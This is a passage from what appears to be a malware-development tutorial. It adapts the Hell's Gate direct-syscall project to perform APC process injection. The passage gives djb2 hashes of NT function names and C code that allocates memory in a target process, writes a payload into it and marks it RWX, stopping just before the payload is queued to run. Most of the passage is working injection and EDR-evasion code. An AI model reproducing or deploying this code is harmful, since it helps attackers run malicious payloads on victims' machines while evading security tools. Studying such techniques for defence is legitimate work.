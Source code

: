 Once the values are generated, add them to the start of the Hell's Gate project.

```c
#define NtAllocateVirtualMemory_djb2 0x7B2D1D431C81F5F6
#define NtWriteVirtualMemory_djb2    0x54AEE238645CCA7C
#define NtProtectVirtualMemory_djb2  0xA0DCC2851566E832
#define NtQueueApcThread_djb2        0x331E6B6B7E696022
```

#### Updating The Main Function

The main function must be updated to use the `ApcInjectionViaSyscalls` function instead of the [payload function](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L80). The function will use the above-generated hashes as shown below.

```c

BOOL ApcInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	Syscall     St                      = { 0 };
	NTSTATUS    STATUS                  = NULL;
	PVOID       pAddress                = NULL;
	ULONG       uOldProtection          = NULL;
	SIZE_T      sSize                   = sPayloadSize,
	            sNumberOfBytesWritten   = NULL;

	// Allocating memory 
	HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);

//--------------------------------------------------------------------------
	
	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	HellsGate(pVxTable->NtWriteVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------

	// Changing the memory's permissions to RWX
	HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
	if ((STATUS = HellDescent(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

//--------------------------------------------------------------------------

	// Executing the payload via NtQueueApcThread

	printf("[#] Press <Enter> To Run The Payload ... ");
```